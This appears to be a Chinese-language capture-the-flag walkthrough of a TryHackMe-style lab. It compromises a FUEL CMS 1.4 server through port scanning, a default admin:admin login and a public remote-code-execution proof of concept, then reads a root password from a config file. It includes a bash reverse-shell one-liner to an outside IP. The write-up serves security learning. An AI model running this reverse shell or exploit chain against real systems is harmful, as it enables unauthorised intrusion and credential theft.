 ![image-20250528154906415](./assets/image-20250528154906415.png)

我们首先根据ip进行端口扫描

![image-20250528155706768](./assets/image-20250528155706768.png)

最开始简单的使用了fscan进行端口扫描。发现只开放了80端口，我是不敢想象的，怀疑端口扫描的不准确，又开始用nmap进行端口探测

推荐使用官方的kali进行扫描：https://tryhackme.com/room/kali

通过nmap的扫描的确发现没有端口

```
┌──(root㉿kali)-[~]
└─# nmap 10.10.96.*** -sS -sV -A -T4 -p-
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```

我们看到了robots.txt文件

![image-20250528161821006](./assets/image-20250528161821006.png)

根据dirsearch扫描出的结果，我们去看一下具体的情况

![image-20250528161802536](./assets/image-20250528161802536.png)

我们结合一下收集的信息

```
Apache httpd 2.4.18 ((Ubuntu))
FUEL CMS 1.4
目录：fuel
php
```

我们直接去访问fuel，发现跳转到一个登录页面

准备随便测一下弱口令的，没想到直接进去了......admin：admin

![image-20250528162111668](./assets/image-20250528162111668.png)

随便看了一看，没什么东西，似乎有文件上传的地点，但是似乎要传指定的变量

进而直接上网去找对应的poc

![image-20250528162627369](./assets/image-20250528162627369.png)

看到有很多1.4版本的代码执行，我们直接去试试。

![image-20250528163618885](./assets/image-20250528163618885.png)

修改一下参数，发现成功执行了。

```
bash -c "exec bash -i >& /dev/tcp/10.8.137.162/4444 0>&1"
```

我们使用下面的命令进行反弹shell

![image-20250528164349255](./assets/image-20250528164349255.png)

发现当前是www—data用户

![image-20250528165137605](./assets/image-20250528165137605.png)

我们在一个文件中发现了root密码，使用linpeas也可以发现这个。

/var/www/html/fuel/application/config中的database.php

![image-20250528165500386](./assets/image-20250528165500386.png)

这样我们就可以读取到密码了。
